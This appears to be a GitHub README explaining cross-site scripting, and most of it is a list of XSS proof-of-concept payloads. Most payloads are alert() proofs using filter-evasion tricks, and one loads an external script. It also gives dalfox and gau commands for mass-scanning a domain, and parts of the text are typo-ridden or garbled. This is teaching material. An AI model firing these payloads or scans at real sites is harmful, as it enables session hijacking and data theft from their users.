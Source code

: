 # XSS-Explained
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different user like as alert(1) this is the most popular.

##types of XSS attacks 
1.Refleected XSS 
  Description: off a web server often via a query string) and executed in a browser. 
  It happens in(search , URLs)
  
2.Stord XSS 

 Description: Script is stored on the server 
 It happens in ( message , user profiles , comments , chat bot or anywhere to sotred )
 
3.Dom XSS 

 Client-side vulnerability 
 
4.slef XSS 

##impact 

Data theft as cookies or credentials
Session hijacking and account takeovers.
Defacing websites.
Spreading malware via compromised websites

### PoC 

- `<script>alert(1)</script>`
- `<svg>prompt(1)</svg>`
- `<xss onafterscriptexecute=alert(1)><script>1</script>`
- `<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="print()"></xss>`
- `<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>`
- `<xss onbeforescriptexecute=alert(1)><script>1</script>`
- `<body onbeforeprint=console.log(1)>`
- `<svg><animate onbegin=alert(1) attributeName=x dur=1s>`
- `<audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`
- `<xss oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>`
- `<input type=hidden oncontentvisibilityautostatechange=alert(1) style=content-visibility:auto>`
- `<svg><animate onend=alert(1) attributeName=x dur=1s>`
- `<audio src/onerror=alert(1)>`
- `<a id=x tabindex=1 onfocus=alert(1)></a>`
- `<xss onfocus=alert(1) autofocus tabindex=1>`
- `<body onhashchange="print()">`
- `<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>`
- `<input onauxclick=alert(1)>`
- `<xss contenteditable onbeforeinput=alert(1)>test</xss>`
- `<input type=file oncancel=alert(1)>`
- `<xss draggable="true" ondragstart="alert(1)" style=display:block>test</xss>`
- `<form onreset=alert(1)><input type=reset>`
- `<form><input type=search onsearch=alert(1) value="Hit return" autofocus>`
- `<body onselectstart=alert(1)>select some text`
- `<form onsubmit=alert(1)><input type=submit>`
- `<body ontouchend=alert(1)>`
- `">img scr =q onerror=prompt(100)>`
- `<script>onerror=alert;throw 1</script>`
- `<script>{onerror=alert}throw 1</script>`
- `<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>`
- `<script>alert\`1\`</script>`
- `<svg onload=alert(1)>`
- `<iframe src="javascript:alert(1)">`
- `<a href="javascript:alert(1)">XSS</a>`
- `<script src="data:text/javascript,alert(1)"></script>`
- `<a href=# download="filename.html">Test</a>`
- `javascript:confirm(1);`
- `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
- `<IMG SRC="javascript:alert('XSS');">`
- `&lt;SCRIPT a=&quot;>&apos;>&quot; SRC=&quot;http://ha.ckers.org/xss.js&quot;&gt;&lt;/SCRIPT&gt;`
- `&lt;A HREF=&quot;http://66.102.7.147/&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://0x42.0x0000066.0x7.0x93/&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://0102.0146.0007.00000223/&quot;&gt;XSS&lt;/A&gt;`
- `<img DYNSRC="javascript:document.vulnerable=true;">`
- `<img LOWSRC="javascript:document.vulnerable=true;">`
- `<~/XSS STYLE=xss:expression(alert('XSS'))>`

##PoC by automation tool

1.creat file for find all URLs

2.Using dalfox 

```
gau example.com > urls.txt
dalfox file urls.txt --output results.txt
```

##Prevent XSS attacks

1. Output Encoding
2. Content Security Policy (CSP)
3. Input Validation

References :
[**OWASP**](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))

[**portswigger**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[**JS Fuck**](https://jsfuck.com/)





